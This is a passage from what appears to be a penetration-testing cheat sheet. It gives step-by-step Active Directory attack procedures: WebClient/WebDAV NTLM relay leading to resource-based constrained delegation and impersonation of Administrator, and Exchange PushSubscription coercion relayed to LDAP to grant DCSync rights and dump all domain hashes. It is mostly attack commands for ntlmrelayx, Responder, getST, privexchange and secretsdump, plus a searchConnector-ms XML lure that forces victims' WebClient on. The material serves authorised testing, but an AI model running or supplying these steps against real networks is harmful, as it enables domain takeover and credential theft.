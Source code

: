 
#### _Remote workstation takeover via WebClient and relay attack:_
- 1\. Enumerate for computers with the WebClient service running:
	- \([webclientscanner](https://github.com/Hackndo/WebclientServiceScanner)\): `(proxychains4) webclientservicescanner <FQDN>/<username>@<network ip>/24 -dc-ip <IP DC>`
	- \([GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus)\): `GetWebDAVStatus.exe <servername, servername>`
- 2\. \(optional\) it is possible to trick a system in enabling its WebClient service, by uploading the following script in a widely accessible directory and give it the name “Documents\.searchConnector\-ms”\. Every time a user visits that directory the WebClient service of that user’s machine will start automatically:
    ```XML
    <?xml version="1.0" encoding="UTF-8"?> <searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector"> <iconReference>imageres.dll,-1002</iconReference> <description>Microsoft Outlook</description><isSearchOnlyItem>false</isSearchOnlyItem> <includeInStartMenuScope>true</includeInStartMenuScope> <iconReference>https://192.168.10.10/0001.ico</iconReference> <templateInfo> <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType> </templateInfo> <simpleLocation> <url>https://www.intranet.net/</url></simpleLocation> </searchConnectorDescription>
    ```
- 3\. Start relay server that will convert http traffic to ldaps, create a new computer account on behalf of the target system and set RBCD \([impacket](https://github.com/SecureAuthCorp/impacket/)\): `python3 ntlmrelayx.py -smb2support -t ldaps://<FQDN DC> --delegate-access`
- 4\. Start Responder to establish host name resolution to your own attacker system \(turn smb and http off in Responder\.conf\) \([Responder](https://github.com/lgandx/Responder)\): `python Responder.py -I <interface> -v`
- 5\. Coerce a target system with the WebClient running to make a webdav \(http\) based authentication request to your relay server\. Use any of the HTTP based relay methods discribed in the “Remotely coerce target computer to authenticate to an arbitrary system” section\. 
- 6\. Use the created computer account to impersonate any user on the target system via S4U2Proxy \(impacket\): `python3 getST.py \-spn host/<FQDN target system> -dc-ip <IP DC> -impersonate Administrator <FQDN>/<name new computer account>\$`
- 7\. Export the ticket into your environment and use any impacket tool \(e\.g\. secretsdump\) in combination with the '\-k' option\.

#### _Exchange HTTP coerce feature combined with NTLM\-relay attack:_
This technique leverages the ability to coerce an Exchange server based on the Exchange "PushSubscription" feature to authenticate to an arbitrary URL over HTTP\. This makes it possible to coerce the Exchange server to authenticate to a NTLM\-relay server and \(mis\)use the default high privileges of the Exchange server to set the "replicate" privileges to an arbitrary AD account\. With the DCSync privileges set, it is possible to dump all the hashes from the domain\.
>For this attack to work, you need control over an AD user that has a mailbox on the target Exchange server\.
- 1\. Start NTLM\-relayx server and specify the user that gets the DCSync privileges \(instead of escalating an user it is also possible to use the "delegate\-access" option with LDAPS and this will make both a new user account \(with DCSync\) and a computer account \(with RBCD for the Exchange server\)\) \([impacket](https://github.com/SecureAuthCorp/impacket/)\): `python3 ntlmrelayx.py -smb2support -t ldap://<FQDN DC> --escalate\-user <username to set DCSync to>`
- 2\. Coerce the Exchange server to make an authenticated request to the relay server \(the account must have a mailbox\) \([PrivExchange](https://github.com/dirkjanm/privexchange/)\): `python3 privexchange.py -ah <own ip> <FQDN Exchange server> -u <username> -d <FQDN> (--hashes :<NTLM>)`
- 3\. Use the obtained DCsync privilege to dump domain hashes\. 
